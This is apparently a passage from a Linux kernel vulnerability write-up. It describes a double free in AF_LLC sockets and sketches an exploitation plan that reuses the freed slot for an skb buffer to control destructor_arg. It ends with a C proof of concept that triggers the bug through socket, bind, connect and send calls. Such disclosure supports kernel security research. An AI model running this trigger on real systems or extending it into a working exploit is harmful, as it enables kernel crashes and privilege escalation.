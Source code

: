 We want to target the 2nd free to free any other object with function pointers (in the general kmalloc) so that we can abuse the crafted UAF. A good target could be to free a skb’s buffer and control the destructor_arg in skb_shared_info just like the writeup in the above link.

**Proof of Concept**<br>
```c
#define _GNU_SOURCE
#include <endian.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <errno.h>
#include <sched.h>
#include <signal.h>
#include <stdarg.h>
#include <stdbool.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <sys/time.h>
#include <sys/wait.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/socket.h>
struct sockaddr_llc {
 short  sllc_family;
 short  sllc_arphrd;
 unsigned char   sllc_test;
 unsigned char   sllc_xid;
 unsigned char sllc_ua;
 unsigned char   sllc_sap;
 unsigned char   sllc_mac[6];
 unsigned char   __pad[2];
};
void test()
{
 int fd = socket(AF_LLC, SOCK_STREAM, 0);
 char output[32] = "lo";
 socklen_t len;
 setsockopt(fd, SOL_SOCKET, SO_BINDTODEVICE, &output, 0x10);
 struct sockaddr_llc addr1 = {.sllc_family = AF_LLC, .sllc_sap = 2};
 bind(fd, (const struct sockaddr *)&addr1, sizeof(struct sockaddr_llc));
 struct sockaddr_llc addr2 = {.sllc_family = AF_LLC, .sllc_sap = 2};
 connect(fd, (const struct sockaddr *)&addr2, sizeof(struct sockaddr_llc));
 char msg[0x10] = "aaaa";
 send(fd, msg, 0x10, 0);
}
int main()
{
 test();
 return 0;
}
```
